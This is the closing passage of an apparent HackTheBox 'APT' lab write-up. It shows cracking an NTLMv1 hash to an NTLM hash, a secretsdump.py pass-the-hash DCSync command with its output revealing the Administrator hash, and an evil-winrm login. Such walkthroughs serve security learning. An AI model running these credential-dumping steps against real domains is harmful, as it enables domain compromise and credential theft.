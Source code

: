 We now have an NTLMv1 hash! Googling how to crack this leads me to this site:

{% embed url="https://crack.sh/get-cracking/" %}

This would convert it to an NTLM hash that we can pass along, of which we get `d167c3238864b12f5f82feae86a7f798`. Since this is the machine account `APT$`, we can perform a DCSync attack on the domain.&#x20;

```
$ secretsdump.py -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@htb.local'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
```

Afterwards, we can use this hash to `evil-winrm` into the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

A unique machine that was rather difficult for me. I definitely needed to use a writeup for this one, or I would still be stuck at the RPC part. Rooted!&#x20;
